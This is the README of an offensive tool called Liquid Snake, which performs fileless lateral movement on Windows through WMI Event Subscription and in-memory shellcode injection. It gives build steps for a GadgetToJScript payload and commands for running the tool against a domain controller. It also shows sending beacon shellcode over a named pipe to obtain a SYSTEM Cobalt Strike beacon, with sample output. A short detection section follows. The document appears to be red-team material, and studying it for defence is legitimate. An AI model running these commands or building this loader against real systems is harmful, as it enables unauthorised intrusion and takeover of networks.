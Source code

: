 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:

![](images/poc.jpeg)


## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman deahtoFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Second some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:

![](images/2021-08-31-16-42-30.png)

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

![](images/2021-08-31-16-43-15.png)

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

![](images/2021-08-31-16-41-25.png)

If everything worked as expected, you should obtain a SYSTEM beacon:

![](images/2021-08-31-16-41-05.png)

## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 